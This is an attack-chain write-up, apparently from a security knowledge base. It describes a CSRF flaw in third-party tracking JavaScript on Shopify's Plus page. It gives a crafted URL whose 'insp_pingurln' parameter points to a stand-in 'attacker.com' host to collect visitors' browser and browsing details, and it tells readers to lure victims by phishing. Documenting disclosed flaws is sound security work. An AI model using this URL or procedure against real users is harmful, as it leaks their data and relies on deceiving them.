

---

# CSRF Information Disclosure on Shopify Plus via Third-Party JavaScript

Multi-stage attack chain demonstrating a complete attack workflow exploiting a CSRF bug in third-party tracking JavaScript on Shopify's plus page to disclose user browser details and browsing context.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- A web browser (e.g., Chrome, Firefox)
- Control over a server to receive POST requests (e.g., ngrok or a simple HTTP server)

### Target Environment

- Web platform
- Access to https://www.shopify.com/plus
- No authentication required

### Initial Access Requirements

- Ability to trick or lure a victim to visit the malicious URL (e.g., via phishing or social engineering)
- Public internet access
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Craft Malicious URL
procedure: [[procedures/Craft-Malicious-URL-with-insp-pingurln-Parameter]]

**Objective**: Create a specially crafted URL that sets the third-party JavaScript's tracking endpoint to the attacker's controlled domain, preparing for the CSRF trigger.

**Instructions**: Construct the URL by appending the 'insp_pingurln' parameter to the Shopify plus page URL, pointing it to your attacker-controlled server. For example, use a domain like 'https://attacker.com' hosted via a tool like ngrok to capture incoming requests.

**Expected Output**: A valid URL like https://www.shopify.com/plus?insp_pingurln=https://attacker.com/# that can be shared or visited.

**Success Indicators**:
- URL is correctly formed without syntax errors
- Parameter is properly encoded if needed

### Step 2: Trigger CSRF POST Request
procedure: [[procedures/Trigger-CSRF-POST-Request-to-Leak-Data]]

**Objective**: Visit the crafted URL to load the Shopify page, which executes the vulnerable JavaScript and sends an unauthenticated POST request to the attacker server, leaking victim data.

**Instructions**: Have the victim (or yourself for testing) visit the malicious URL in a browser. The page load will automatically trigger the POST due to the lack of CSRF tokens in the third-party script.

**Expected Output**: On the attacker server, receive a POST request with form data including browser user agent (u), screen width/height (w), referer (ref), page title (title), and other tracking parameters like uid, sid, nv.

**Success Indicators**:
- POST request received on attacker server
- Data fields populated with victim browser and context details
- No authentication errors or blocks

## Attack Chain Summary

### Key Achievements

1. Successful crafting of a CSRF-triggering URL without authentication
2. Automatic leakage of non-sensitive but identifying browser and session data
3. Demonstration of third-party script risks in cross-origin requests

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2024-10-01T00:00:00Z*
